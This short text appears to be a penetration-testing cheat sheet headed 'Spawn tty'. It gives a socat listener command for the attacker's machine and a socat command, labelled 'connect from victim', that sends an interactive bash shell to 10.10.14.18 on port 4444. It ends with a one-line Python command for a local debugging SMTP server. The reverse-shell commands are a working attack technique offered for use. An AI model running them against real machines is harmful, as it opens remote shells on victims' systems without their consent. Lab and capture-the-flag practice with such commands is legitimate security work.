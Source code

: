 <h3>Spawn tty</h3>

listener on your machine:
socat file:\`tty\`,raw,echo=0 tcp-listen:4444 

connect from victim
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.18:4444 

SMTP Server
sudo python -m smtpd -n -c DebuggingServer localhost:25
